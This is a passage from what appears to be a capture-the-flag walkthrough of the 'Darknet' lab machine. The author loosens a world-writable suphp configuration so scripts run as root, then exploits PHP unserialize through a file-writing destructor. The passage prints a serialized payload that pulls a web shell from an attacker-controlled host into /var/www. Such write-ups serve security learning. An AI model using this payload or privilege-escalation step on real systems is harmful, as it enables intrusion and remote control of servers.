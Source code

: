 Rembering that we're dealing with suphp it could well be that the 500 error is because `sec.php` is trying to run as `root`. Checking `/etc/suphp/suphp.conf` my suspicion is correct, the `min_uid` and `min_gid` settings are too high for `root` scripts to run. But hey, as luck would have it (thanks q3rv0) `suphp.conf` is `777`. So heading straight to `sed`

```sourceCode
$ sed -i 's/min_uid=100/min_uid=0/g' suphp.conf
sed: couldn't open temporary file ./sedm2LUZQ: Permission denied
```

Hmph. Ok then I'll copy the `suphp.conf` to `/tmp` and edit it there, then copy it back. Making sure I change both `min_uid` and `min_gid`, I reload `sec.php` and get a blank page. No errors are good errors.

Now that I've got `sec.php` running I can go ahead and see what we might be able to exploit. Anything we do with this file will run as root, some hopefully this is the last part of Darknet, because I want my life back :)

`sec.php` unserialises our input, which basically takes a serialised string and [unserialises into an object](https://php.net/manual/en/function.unserialize.php). Similar to Python's pickle. There's no way I can call a method on either of the classes, so I have to see what will get called for me. The `Test` class has a rather useful destructor, which, will write data to disk and make it world readable. Almost as if that's what we're supposed to use.

```php
<?php

class Test {

    public $url;
    public $name_file;
    public $path;

    function __destruct(){
        $data=file_get_contents($this->url);
        $f=fopen($this->path."/".$this->name_file, "w");
        fwrite($f, $data);
        fclose($f);
        chmod($this->path."/".$this->name_file, 0644);
}
}

?>
```

The `Show` class on the other hand is only useful for testing, as this will provide visual feedback when `sec.php` gets rendered and runs the `echo` statement. This will invoke the `__toString` method on the `Show` class. Passing `test=O:4:"Show":1:{s:4:"woot";s:2:"XX";}` will print `Showme`, confirming that the serialisation worked.

Now to get DAws on there as root. First things first I need to determine the serialised string. I do this with a simple PHP script that searialises the `Test` class and prints out the string I need. Which is

```sourceCode
O:4:"Test":3:{s:3:"url";s:30:"https://192.168.56.101/DAws.txt";s:9:"name_file";s:8:"DAws.php";s:4:"path";s:8:"/var/www"}
```
